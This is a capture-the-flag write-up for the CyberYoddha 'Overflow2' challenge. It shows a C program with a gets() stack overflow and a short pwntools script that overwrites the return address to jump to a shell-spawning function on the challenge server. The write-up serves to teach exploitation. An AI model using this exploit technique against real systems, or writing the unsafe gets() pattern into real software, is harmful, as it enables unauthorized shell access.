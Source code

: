 ```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```
We can see that to get a shell, we need to call the run_shell() function by controlling the return address. First we get the addr of the function (can be done by disassembling the program, I used: objdump -d -M intel ./Overflow2)

![get_shell_function_addr](/assets/getshelladdr.png)

Now we need to overwrite the buffer and control the return address. The buffer size to be overwritten is 28 bytes and the address (in little endian) is '\x72\x91\x04\x08'.
We can use pwntools to write an exploit:
```python
from pwn import *
context(arch="i386", os="linux")
r=remote("cyberyoddha.baycyber.net", 10002)
r.send('a'*28+'\x72\x91\x04\x08')
r.interactive()
```
We run it and..... success! We got a shell.

![overflow2exploit](/assets/overflow2exploit.png)
